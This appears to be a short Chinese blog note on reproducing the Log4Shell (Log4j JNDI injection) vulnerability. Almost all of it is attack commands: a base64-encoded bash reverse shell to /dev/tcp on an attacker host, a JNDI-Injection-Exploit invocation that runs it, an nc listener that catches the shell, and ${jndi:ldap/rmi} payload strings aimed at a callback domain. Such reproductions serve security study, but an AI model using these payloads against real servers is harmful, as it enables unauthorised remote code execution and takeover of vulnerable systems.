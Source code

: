```yaml
---
title: log4j复现
id: log4j复现
---
```


<!-- more -->



[Release JNDI-Injection-Exploit v1.0 · welk1n/JNDI-Injection-Exploit (github.com)](https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0)

这个payload很神奇，是看小迪迦[有道云笔记 (youdao.com)](https://note.youdao.com/ynoteshare/index.html?id=395d89aaf7069c08a59de7c2e9265d24&type=note&_time=1639622219489)复现的，重点在于构造反弹shell

base64编码可以避免一些传参问题

```sh
echo -n "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/1312 0>&1" | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTkuMy4yMTcuNDAvMTMxMiAwPiYx
```

```sh
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,上面那串base64编码}|{base64,-d}|{bash,-i}" -A xxx.xxx.xxx.xxx
```

![](https://s2.loli.net/2021/12/16/MI4RPoADCiKy9Qv.png)

然后另外一边再开个nc

```
nc -lvvp 1312
```

可以看到成功弹过来了

![](https://s2.loli.net/2021/12/16/CM8SZN5kwLHpvAU.png)

```
${jndi:ldap://xxx.ceye.io/a}
${jndi:rmi://xxx.ceye.io/a}
```


